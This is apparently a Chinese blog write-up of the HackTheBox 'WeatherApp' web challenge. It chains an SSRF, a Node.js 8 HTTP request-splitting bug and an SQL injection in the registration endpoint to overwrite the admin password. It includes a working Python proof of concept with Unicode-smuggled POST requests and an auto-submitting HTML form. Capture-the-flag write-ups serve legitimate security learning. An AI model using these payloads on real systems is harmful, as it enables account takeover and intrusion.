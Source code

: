 ```yaml
---
title: HackTheBox WeatherAPP WriteUP
date: 2023-08-22 18:08:00
tags:
- HackTheBox
- Web
---
```



## 题目

> A pit of eternal darkness, a mindless journey of abeyance, this feels like a never-ending dream. I think I'm hallucinating with the memories of my past life, it's a reflection of how thought I would have turned out if I had tried enough. A weatherman, I said! Someone my community would look up to, someone who is to be respected. I guess this is my way of telling you that I've been waiting for someone to come and save me. This weather application is notorious for trapping the souls of ambitious weathermen like me. Please defeat the evil bruxa that's operating this website and set me free! 🧙‍♀️


![WeatherAPP](image.png)

![Web](image-1.png)

## 思路

首先看代码，代码给我们的线索有：

1. Flag在`/app/flag`，需要以admin账户登录系统才能获得；

![Flag File](image-2.png)

2. admin账号的密码是16进制32Byte大小的随机字符串，暴力破解不用考虑了；

![32Pass](image-3.png)

3. 注册账户功能存在SQL注入漏洞；

![SQL Injection](image-4.png)

4. 注册账户功能限制源IP，仅限本地（127.0.0.1）使用；

![Register](image-6.png)

5. API`/api/weather`存在SSRF漏洞；

![SSRF](image-5.png)

至此，思路基本清晰，即：**利用SSRF漏洞，让服务器提交注册用户请求，覆盖掉admin账号的密码，从而取得Flag。**

唯一一个尚未解决的问题是，`/api/weather`接口只能提交GET请求，而注册用户是强制读取`Request Body`中的数据的。

那么，我们还需要寻找其他线索。

`package.json`中显示，NodeJS版本为8.12.0

![NodeJS](image-7.png)

当前版本的NodeJS存在HTTP Request拆分漏洞，详见：[Node.js disclosed on HackerOne: Http request splitting](https://hackerone.com/reports/409943)

利用此漏洞，我们可以顺利通过服务器提交POST表单了。

完整思路：

1. 利用SSRF伪造服务器请求；
2. 利用NodeJS组件漏洞提交POST表单；
3. 利用注册功能的SQL注入漏洞覆盖掉admin账户的密码；
4. 登录admin账户，获得Flag。

## 解题

利用Python构造并提交POC：

``` python
# poc.py

import requests


payload = '''127.0.0.1/ HTTP/1.1
Host: http://127.0.0.1

POST /register HTTP/1.1
Host: http://127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 88
Connection: close

username=admin&password=1234') ON CONFLICT(username) DO UPDATE SET password = 'admin';--

GET / HTTP/1.1
Host: http://127.0.0.1
test:'''.replace("\n","\r\n")

payload = payload.replace('\r\n', '\u010d\u010a') \
    .replace('+', '\u012b') \
    .replace(' ', '\u0120') \
    .replace('"', '\u0122') \
    .replace("'", '\u0a27') \
    .replace('[', '\u015b') \
    .replace(']', '\u015d') \
    .replace('`', '\u0127') \
    .replace('"', '\u0122') \
    .replace("'", '\u0a27') \
    .replace('[', '\u015b') \
    .replace(']', '\u015d')

print(payload)

burp0_url = "http://167.172.61.89:32702/api/weather"
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36", "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "http://167.172.61.89:32702/", "Content-Type": "application/json", "Origin": "http://167.172.61.89:32702", "DNT": "1", "Connection": "close", "sec-ch-ua-platform": "\"Windows\"", "sec-ch-ua": "\"Google Chrome\";v=\"113\", \"Chromium\";v=\"113\", \"Not=A?Brand\";v=\"24\"", "sec-ch-ua-mobile": "?0"}
burp0_json={"city": "Tokyo", "country": "JP", "endpoint": payload}
resp = requests.post(burp0_url, headers=burp0_headers, json=burp0_json)

print(resp.text)
```

登录admin，获得flag：

![Bingo](image-8.png)

## 后记

最早解题的时候是没有注意到NodeJS的版本的，一直卡在无法提交POST表单这一步，最后还是看了其他大佬的WriteUP。想了一些很抽象的办法，例如在服务器上设置一个HTML文件，访问到这个文件的时候自动提交Form表单。这个思路能成功的前提是，服务器会解析HTML和JavaScript。抱着试一试的心态尝试了一番，最后理所当然的失败了。这里将用到的HTML代码记录下来，权当消遣与纪念(代码是ChatGPT写的)。

``` HTML
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>自动提交表单</title>
    <script type="text/javascript">
        window.onload = function() {
            document.forms["autoSubmitForm"].submit();
        }
    </script>
</head>
<body>
    <form id="autoSubmitForm" action="http://127.0.0.1/register" method="post">
        <input type="hidden" name="username" value="admin">
        <input type="hidden" name="password" value="admin">
    </form>
</body>
</html>
```

> PS: 今天七夕，在护网现场爆肝三篇WriteUP，感谢女朋友的鼓舞BUFF加持！

## 参考资料

- [NodeJS 中 Unicode 字符损坏导致的 HTTP 拆分攻击](https://www.anquanke.com/post/id/241429)
- [HTB之Weather App](https://blog.csdn.net/f_cccc/article/details/1164068)